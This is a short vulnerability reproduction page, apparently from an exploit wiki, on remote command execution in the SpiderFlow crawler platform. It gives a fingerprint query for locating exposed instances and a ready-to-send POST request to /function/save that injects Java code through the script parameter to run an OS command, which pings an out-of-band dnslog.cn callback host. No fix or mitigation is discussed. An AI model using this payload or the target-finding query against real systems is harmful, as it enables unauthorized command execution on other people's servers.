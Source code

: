 # SpiderFlow save remote command execution vulnerability

## Vulnerability Description

The SpiderFlow platform defines crawls in a flowchart way, and is a highly flexible and configurable crawl platform.

Official website: https://www.spiderflow.org/

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SpiderFlow</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title=="SpiderFlow"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1640438666683-12d29712-e90c-483b-b311-9fd25f852ca4.png)

Send request packet to execute command

```go
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1640438711420-73f701ff-c390-4201-96df-1e62cdf44208.png)